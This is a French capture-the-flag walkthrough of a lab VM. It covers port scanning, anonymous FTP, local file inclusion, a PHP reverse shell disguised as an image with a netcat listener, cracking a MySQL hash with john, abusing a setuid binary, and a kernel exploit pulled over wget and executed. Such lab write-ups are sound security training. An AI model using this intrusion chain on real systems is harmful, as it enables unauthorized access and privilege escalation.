##### **<u>1. NMAP:</u>**

> sudo nmap -sSV -sC  -p- 192.168.52.131

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-p- : Scan tous les ports existant`



On peut voir que le port 80(http) est ouvert et que le service ssh(25452) ainsi que ftp(61337) sont sur des ports différents.

Grâce aux scripts lancé par nmap, on peut constater que le partage ftp est autorise la connexion en utilisateur anonyme, de plus le ftp contient des fichiers visible sur le nmap.

##### **<u>2.FTP:</u>**

> ftp 192.168.52.131 61337

Name: Anonymous

Password: Anonymous



Plusieurs fichiers sont contenu dans le ftp.

Exportons tous ça.



Letter.txt :



La seul information intéressante dans se fichier, est qu'il nous dis que les autres fichiers contiennent des logs.

auth.log :

Rien d'intéressant dans le fichier auth.log

access.log :

Dans ce fichier on peut voir que des requêtes sont faite vers le serveur web, filtrons les requêtes uniquement réussis(réponse 200)



> cat access.log | grep 200

On voit une requêtes vers un dossier avec un nom assez atypique, allons voir ça de plus prés.



Nous voilà sur un page secret de l'ESGI, énumérons les sous dossier possible.

##### **<u>3.FFUF:</u>**

> ffuf -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://192.168.52.131/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/FUZZ



On découvre un dossier uploads accessible.

Regardons ça de plus près.



On trouve un index of dans ce dossier, si un dossier et nommé "uploads" c'est qu'il doit bien avoir un autre dossier ou l'on peut upload des fichiers.

Allons tester les extensions php.

> ffuf -w /usr/share/SecLists/Discovery/Web-Content/common-PHP-Filename.txt -u http://192.168.52.131/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/FUZZ



2 dossier un upload.php (surement l'upload de fichier) et un language.php

upload.php :

Comme pensé un système d'upload testons d'injecter un reverse shell en php



L'upload nous bloque les extensions php, revenons dessus plus tard et allons voir l'autre dossier

language.php :



En regardant l'url on peut voir qu'il utilise des fichiers php, testons une attaque lfi.



Pas d'erreur, tentons encore plusieurs retour en arrière(../)





Bingo, on peut donc bien exécuter des fichiers dessus.



Etant donnée que cette page exécute du code php, si on upload une image contenant du code php il devrait l'executer.





Parfait vérifions dans le dossier upload.

Débutons une écoute sur le port défini dans le reverse shell.

> nc -lnvp 4444

Retournons dans language.php pour exécuter le reverse shell

Etant donné que les deux dossiers sont dans le même répertoir il suffit de mettre le chemin /uploads/rev.php.jpg



Nous voilà avec un shell sur l'utilisateur www-data.

##### <u>**4.PrivEsc:**</u>

Etant donnée qu'il existe des form php, cela nous permet de déduire qu'il y a une base de donnée vers qui le php envoi des requêtes(surement sql).

> find / -name *.sql -type f 2>/dev/null



Nous voilà avec le mdp hash de l'utilisateur eguillemot.



Avec hash-identifier on retrouve le hash utiliser,  mysql-sha1



##### **<u>5.JOHN:</u>**

Stockons le mdp chiffré dans un fichier temporaire

> echo -n '*B38E48ED65DF090D475F5F25E030D183BC140ECD' > abc.txt



Vérifions si john possède ce type de hash

> john --list=formats | grep mysql



John le connais, parfait on peut donc tenter de trouver le mot de passe.

Etant donnée que je l'ai déjà fais il me dit que john le possède déjà dans ses fichiers.

> john --format=mysql-sha1 abc.txt



Nous voilà avec le mot de passe de l'utilisateur guillemot qui est esgi.

Nous voilà connecté sur le user eguillemot



Premier flag:



Tentons maintenant d'accéder à l'utilisateur khennou.

> find / -perm /4000 -user khennou 2>/dev/null



Grâce à la command find et son option -perm 4000 on sait qu'il y a un sticky bit sur la commande whois.

En exécutant whois, on aperçoit que rien ne s'affiche, or la commande par défaut affiche au moins une erreur, cela veut dire que ce n'est pas la vrais commande whois.



Exportant le binaire sur la notre machine pour voir exactement ce qu'elle fait.

Analyse static:

En utilisant l'outil cutter et sont outils décompiler on voit qu'elle exécute  un shell bash avec l'id de l'utilisateur(khennou dans notre cas), on voit de plus qu'il fait une comparaison entre l'adresse var_24h et s2.



Analyse dinamique:

Sur gdb on vois qu'il compare les varables rsi ainsi que rdi, le code est affiché en clair dans la variable rsi (étant donné que rdi est notre input).



Nous voilà maintenant avec l'utilisateur khennou.



En regarde les droits sudo, on voit que cet utilisateur  possède les droits root sans mot de passe.



2ème flag:



Surprise:

En récupérant la version du kernel et en faisant un searchsploit on voit qu'elle est vulnérable.





La cve nous renvois vers le script suivant:

www.halfdog.net/Misc/Utils/UserNamespaceExec.c

Compiler le code c

> gcc UserNamespaceExec.c -o UserNamespaceExec



On ouvre un server web afin de récupérer le script sur la machine distante

> wget 192.168.52.128:8000/UserNamespaceExec



> chmod +x UserNamespace

Rendre le script exécutable



> ./UserNamespaceExec -- /bin/bash

